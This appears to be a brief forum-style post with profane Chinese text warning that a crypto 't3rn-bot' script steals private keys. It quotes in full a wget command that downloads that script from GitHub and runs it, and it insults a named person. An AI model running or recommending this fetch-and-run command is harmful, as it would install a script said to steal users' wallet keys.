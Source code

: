 
wget -O t3rn-bot.sh https://raw.githubusercontent.com/jiecaojiaobanji/t3rn-bot/refs/heads/main/t3rn-bot.sh && sed -i 's/\r//' t3rn-bot.sh && chmod +x t3rn-bot.sh && ./t3rn-bot.sh

操你麻痹的Rambeboy,大家注意一下这个傻逼的脚本，偷私钥的
